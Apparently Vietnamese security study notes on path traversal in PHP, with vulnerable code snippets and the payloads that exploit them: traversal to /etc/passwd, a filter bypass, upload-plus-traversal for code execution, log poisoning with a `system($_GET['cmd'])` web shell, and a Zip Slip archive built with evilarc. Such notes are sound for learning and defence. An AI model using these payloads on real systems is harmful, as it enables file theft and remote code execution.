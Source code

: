 ### Example 1

```
$file_path = '/var/www/html/images/' . $file_name;
```

Thư mục hiện tại `/var/www/html/images/` như vậy để quay về được thư mục gốc cần `../../../../`. -> $file_name=../../../../etc/passwd

### Example 2

```
if (strpos($file, "..") !== false)
    die("detected");
if (file_exists($file)) {
    header('Content-Type: image/png');
    readfile($file);
```

Filter `..`, nhưng không có đường dẫn thư mục hiện tại như ex trước. --> $file_name=/etc/passwd

### Example 3

```
$_SESSION['dir'] = '/var/www/html/upload/' . bin2hex(random_bytes(16));

$album = $dir . "/" . strtolower($_POST['album']);
...
$newFile = $album . "/" . $files["name"][$i];
move_uploaded_file($files["tmp_name"][$i], $newFile);
```

Ex này có chức năng upload file --> Khai thác kết hợp lỗ hỏng File Up Load với Path_traversal --> RCE. 

### Example 4

### Example 5

```
<?php include './views/' . $game; ?>
```

PHP include là một hàm cho phép copy hết tất cả nội dung của file khác vào file hiện tại, rồi thực thi.

Đối với httpd Apache, mặc định các request sẽ được ghi log lại ở đường dẫn /var/log/apache2/access.log.

Một số trường ta có thể thay đổi trong gói tin HTTP gửi lên server là: Request String, Referer, và User-Agent

`system($_GET['cmd'])`

### Example 6

Lỗi Zip Slip, sử dụng công cụ cho phép thay đổi tên file sao cho có chứa ../. Một trong các công cụ nổi tiếng là evilarc:

python3 evilarc.py -d 2 -o unix info.php











